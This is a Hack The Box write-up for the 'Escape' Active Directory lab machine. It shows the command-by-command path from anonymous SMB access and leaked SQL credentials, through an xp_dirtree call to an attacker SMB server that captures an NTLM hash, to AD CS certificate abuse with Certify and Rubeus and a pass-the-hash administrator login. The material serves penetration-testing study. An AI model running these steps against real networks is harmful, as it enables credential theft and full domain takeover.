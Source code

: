 ```yaml
---
title: "Hack The Box - Escape [Medium]"
date: 2023-03-23T02:01:27+03:00
draft: false
description: 
---
```


This is a Windows Machine which is part of an Active Directory. I would try my best to explain the stuff that I did, since that I've seen pretty bad write-ups that are not explaining anything. I also want to be honest, and I will link every write-up that I used to exploit the machine. 

I am still learning Active Directory at the time of writing this, so there might be errors, I will do my best to mitigate that!

## Enumerating

I started with a simple `nmap` scan.

```bash
$ nmap -Pn 10.10.11.202
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Now since I am new to Active Directory I turned to https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb to check what I can try.

Eventually, after trying most of them, I landed on `smbclient`

```bash
$ smbclient --no-pass -L 10.10.11.202
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

This is a list of shared folders, the one that we can take a look at is `Public`

```bash
$ smbclient -N //10.10.11.202/Public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

  5184255 blocks of size 4096. 1276406 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.8 KiloBytes/sec) (average 62.8 KiloBytes/sec)
```

Opening, the PDF states that we can use `PublicUser:GuestUserCantWrite1` to log in to the SQL Server. We can use the `impacket-mssqlclient` which is a tool 

```bash
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.10.11.202
```

Once I was in I started enumerating the database, looking at this and that, but I had no luck, I turned to some write-ups to follow up.

Now most of the write-ups are just skipping the explanation of this step, but I think that it is really important to know what's going on, so I will do my best to explain it.

Following up this https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack attack, I tried the following thing:

I checked if I can execute `xp_dirtree`:

```SQL
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

It turns out I can, so to capture the authentication hash, I need to set up an SMB server:

```bash
# My Machine
$ impacket-smbserver -smb2support smb ./smb
```

And then to execute the `xp_dirtree` on the SQL Server

```SQL
SQL> exec master.dbo.xp_dirtree '\\<myIP>\smb'
```

Doing this would catch the `AUTHENTICATE_MESSAGE`, the user and the hash.

```bash
$ impacket-smbserver -smb2support smb ./smb

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52180)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:84e0a29415d2823f80593c9bc45d158c:010100000000000080fba2b8945ed9010f6267444f7024440000000001001000780056007a005000590061005000570003001000780056007a0050005900610050005700020010006c004f0054006f006f00540076007700040010006c004f0054006f006f005400760077000700080080fba2b8945ed90106000400020000000800300030000000000000000000000000300000c57e7de4e6e8e7baebb297a4bfc1a9019bc96f8f58ffbd9cb233cec428ece87f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100340032000000000000000000
```

Now I need to crack the hash, I won't post the results here, so you have to figure that one on your own, it is simple enough! :) 

Using the cracked password, I can log in using the `evil-winrm`

```bash
$ evil-winrm --ip 10.10.11.202 --user sql_svc --password $(cat ./password)
```

Now, we need to start enumerating again. I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> upload /home/syl/tools/win/winPEASany.exe
```

I eventually stumbled across interesting files and I've enumerated the users. The interesting file was `C:\SQLServer\Logs\ERRORLOG.BAK` and upon further inspection I've got the password for the user `Ryan.Cooper`.

```bash
$ evil-winrm --ip 10.10.11.202 --user Ryan.Cooper --password $(cat ./password ryan_password)
...
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> gc ../Desktop/user.txt
<user_hash>
```

Now I needed to escalate, I've used this guide for misconfigured certificates that cause AD CS Domain Escalation. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

I've uploaded Certify to the SQL Server (user login) and tried to find vulnerable certificates.

> **NOTE**: Certify is a tool to enumerate and abuse misconfigured AD CS, you can find its source code here: https://github.com/GhostPack/Certify. Unfortunately(or fortunately) there aren't any prebuilt binaries and you have to build it yourself. It is well explained in the README.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
...
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```

With that tool, I found a vulnerable certificate that I can use to impersonate an administrator. Following up the attack on hacktricks:

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

... CERTIFICATE ...

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I've downloaded the certificate on my machine and ran the command to convert it to `pfx` and I've uploaded it back to the server.

Using another tool called [Rubeus](https://github.com/GhostPack/Rubeus) that I've used to send raw request for a TGT towards the DC.

```powershell
$ ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /password:123

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::5438:a078:e66d:b560%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <NTLM HASH>
```

Now, that gave me the NTLM Hash, which is the cryptographic format in which user passwords are stored on Windows systems.

I can use that with:

```
$ evil-winrm -H "<NTLM HASH>" -u "administrator" -i 10.10.11.202
M* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
<root_hash>
```


# References

- https://blog.zerospl0it.com/posts/Escape/
- https://yu8pentest.blogspot.com/2023/02/escape.html
- https://medium.com/@Kushagra007/writeup-escape-hackthebox-dbee2d761d15
- https://breached.vc/Thread-Escape-HTB-Discussion?highlight=escape
